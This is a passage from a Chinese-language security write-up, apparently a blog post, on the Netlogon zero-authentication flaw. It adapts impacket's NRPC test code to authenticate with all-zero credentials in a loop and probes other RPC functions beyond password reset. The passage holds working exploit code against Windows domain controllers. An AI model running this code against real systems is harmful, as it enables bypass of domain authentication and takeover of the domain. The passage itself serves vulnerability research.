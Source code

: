 那么运行 256 次成功的概率就是

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5otyMkgzRw69swH7a5S83woKAZOYZSROoJGtBbnMdFOQkazS2N77Dqxxta6RWCamwFhhOtHtCm6Q/640?wx_fmt=png)

运行 2000 次成功的概率就是

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5otyMkgzRw69swH7a5S83wkYic5t1scph4z2OIzcgkUjMBrLYowNViafCPTSFogNUS4u0XBQJXK0Ng/640?wx_fmt=png)

### **3、NRPC 那么多函数，是不是一定得重置密码**

已经绕过了 netlogon 的权限校验，那么 netlogon 里面的 RPC 函数那么多，除了重置密码，有没有其他更优雅的函数可以用来利用呢。

我们可以在 API 文档里面开始寻觅。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5otyMkgzRw69swH7a5S83wqwIBLkRzjqEtBve5QLuqerwwTt8nEaE3gwsLmTdIAjibuodTUUfRicTw/640?wx_fmt=png)

事实上，在 impacket 里面的`impacket/tests/SMB_RPC/test_nrpc.py`里面已经基本实现了调用的代码，我们只要小做修改，就可以调用现有的代码来做测试。

我们将认证部分，从账号密码登录替换为我们的 Poc

```
def connect(self):
        if self.rpc\_con == None:
            print('Performing authentication attempts...')
            for attempt in range(0, self.MAX\_ATTEMPTS):
                self.rpc\_con = try\_zero\_authenticate(self.dc\_handle, self.dc\_ip, self.target\_computer)
                if self.rpc\_con == None:
                    print('=', end='', flush=True)
                else:
                    break
        return self.rpc\_con
```

将 Authenticator 的实现部分也替换下就行。

```
def update\_authenticator(self):
        authenticator = nrpc.NETLOGON\_AUTHENTICATOR()
        # authenticator\['Credential'\] = nrpc.ComputeNetlogonCredential(self.clientStoredCredential, self.sessionKey)
        # authenticator\['Timestamp'\] = 10
        authenticator\['Credential'\] = b'\\x00' \* 8
        authenticator\['Timestamp'\] = 0
        return authenticator
```

然后其他地方根据报错稍微修改就可以了。我们开始一个个做测试。  

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5otyMkgzRw69swH7a5S83ww1WyRewG9ZJKSQlXHGPxYS063rXkKsvFxz6YEX5KCtuCTuSDEUtiatw/640?wx_fmt=png)

这块基本是查看信息。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5otyMkgzRw69swH7a5S83wtFrhCobCVPLLbDuXg837o8l87GVcl0C1JJd2arP8IZueBxwiaV0Uoxg/640?wx_fmt=png)

虽然可以调用成功，但是对我们的利用帮助不大。
